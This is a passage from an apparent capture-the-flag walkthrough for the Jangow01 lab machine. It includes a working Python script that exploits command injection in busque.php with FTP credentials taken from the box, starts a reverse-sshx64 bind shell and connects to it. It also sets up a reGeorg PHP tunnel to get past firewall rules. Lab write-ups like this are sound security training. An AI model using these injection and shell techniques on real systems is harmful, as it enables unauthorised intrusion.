 ```python
import os                                                                                                              
from time import sleep                                                                                                 
from ftplib import FTP                                                                                                 
from urllib.request import urlopen                                                                                     
from urllib.parse import quote                                                                                         

RHOST = "192.168.56.118"                                                                                               

ftp = FTP(RHOST, "jangow01", "abygurl69")                                                                              
ftp.set_pasv(True)                                                                                                     
__, port = ftp.makepasv()                                                                                              
ftp.close()                                                                                                            
print(f"Punching hole on port {port}")                                                                                 
BIND_SHELL = f"screen -dm bash -c '/home/jangow01/reverse-sshx64 -v -l -p {port}'"                                     
url = f"http://{RHOST}/site/busque.php?buscar={quote(BIND_SHELL)}"                                                     
urlopen(url)                                                                                                           
sleep(.1)                                                                                                              
print(f"Lauching ssh on {RHOST}:{port}")                                                                               
os.system(f"ssh -p {port} {RHOST}")
```

It works flawlessly !  

Tunneling our shell through the HTTP server
-------------------------------------------

Another solution to get an interactive shell without being annoyed by the firewall rules is to tunnel our shell using the famous [reGeorg](https://github.com/sensepost/reGeorg/).  

The first step is to put [this PHP script](https://github.com/sensepost/reGeorg/blob/master/tunnel.php) on the webserver. As the server is running Linux you must remove the call to the *dl()* function in the code that tries to load a PHP related dll file.  

Then you establish the tunnel like this :  

```plain
$ python2 reGeorgSocksProxy.py -v DEBUG -p 11080 -u http://192.168.56.118/site/tunnel.php

                     _____
  _____   ______  __|___  |__  ______  _____  _____   ______
 |     | |   ___||   ___|    ||   ___|/     \|     | |   ___|
 |     \ |   ___||   |  |    ||   ___||     ||     \ |   |  |
 |__|\__\|______||______|  __||______|\_____/|__|\__\|______|
                    |_____|
                    ... every office needs a tool like Georg

  willem@sensepost.com / @_w_m__
  sam@sensepost.com / @trowalts
  etienne@sensepost.com / @kamp_staaldraad

```